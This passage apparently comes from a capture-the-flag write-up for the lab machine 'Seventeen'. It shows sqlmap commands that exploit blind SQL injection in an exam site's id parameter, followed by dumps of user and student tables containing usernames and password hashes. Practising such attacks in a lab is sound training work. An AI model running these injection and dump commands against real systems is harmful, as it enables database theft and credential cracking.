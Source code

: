 Since I'm trying to log in, I'll dump the user table. we might retrieve some crackable hashes

```
sqlmap.py -D db_sfms -T user --dump -u 'http://exam.seventeen.htb/?p=take_exam&id=1' -p id --technique B --batch --threads 10
<
Database: db_sfms
Table: user
[3 entries]
+---------+---------------+---------------+----------------------------------+------------------+---------------+
| user_id | status        | lastname      | password                         | username         | firstname     |
+---------+---------------+---------------+----------------------------------+------------------+---------------+
| 1       | administrator | Administrator | fc8ec7b43523e186a27f46957818391c | admin            | Administrator |
| 2       | Regular       | Anthony       | b35e311c80075c4916935cbbbd770cef | UndetectableMark | Mark          |
| 4       | Regular       | Smith         | 112dd9d08abf9dcceec8bc6d3e26b138 | Stev1992         | Steven        |
+---------+---------------+---------------+----------------------------------+------------------+---------------+
<
```
There's no student number in this table, let's dump the `student` table then.

```
sqlmap.py -D db_sfms -T student --dump -u 'http://exam.seventeen.htb/?p=take_exam&id=1' -p id --technique B --batch --threads 10
<
Database: db_sfms
Table: student
[4 entries]
+---------+----+--------+---------+----------+----------------------------------------------------+-----------+
| stud_id | yr | gender | stud_no | lastname | password                                           | firstname |
+---------+----+--------+---------+----------+----------------------------------------------------+-----------+
| 1       | 1A | Male   | 12345   | Smith    | 1a40620f9a4ed6cb8d81a1d365559233                   | John      |
| 2       | 2B | Male   | 23347   | Mille    | abb635c915b0cc296e071e8d76e9060c                   | James     |
| 3       | 2C | Female | 31234   | Shane    | a2afa567b1efdb42d8966353337d9024 (autodestruction) | Kelly     |
| 4       | 3C | Female | 43347   | Hales    | a1428092eb55781de5eb4fd5e2ceb835                   | Jamie     |
+---------+----+--------+---------+----------+----------------------------------------------------+-----------+
<
```
